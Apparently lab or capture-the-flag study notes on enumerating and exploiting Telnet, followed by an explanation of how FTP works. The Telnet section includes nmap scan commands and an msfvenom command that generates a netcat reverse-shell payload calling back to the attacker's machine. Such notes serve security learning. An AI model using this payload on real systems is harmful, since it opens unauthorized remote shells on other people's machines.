 ## Enumerating Telnet

```yaml
nmap -p1-9999 <Machine_ip>
nmap <Machine_ip>
nmap -A -p <port> <Machine_ip>
```

## Exploiting Telnet

You can connect to a telnet server with the following syntax:

**"telnet [ip] [port]"**

**What is a Reverse Shell?**

A **"shell"** can simply be described as a piece of code or program which can be used to gain code or command execution on a device.

A reverse shell is a type of shell in which the target machine communicates back to the attacking machine.

The attacking machine has a listening port, on which it receives the connection, resulting in code or command execution being achieved.

We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R
```

- `p` = payload
- `lhost` = our local host IP address (this is **your** machine's IP address)
- `lport` = the port to listen on (this is the port on **your** machine)
- `R` = export the payload in raw format

# FTP

**What is FTP?**

File Transfer Protocol (FTP) is, as the name suggests , a protocol used to allow remote transfer of files over a network. It uses a client-server model to do this, and- as we'll come on to later- relays commands and data in a very efficient way

**How does FTP work?**

A typical FTP session operates using two channels:

- a command (sometimes called the control) channel
- a data channel.

- As their names imply, the command channel is used for transmitting commands as well as replies to those commands, while the data channel is used for transferring data.
- FTP operates using a client-server protocol. The client initiates a connection with the server, the server validates whatever login credentials are provided and then opens the session.
- While the session is open, the client may execute FTP commands on the server.
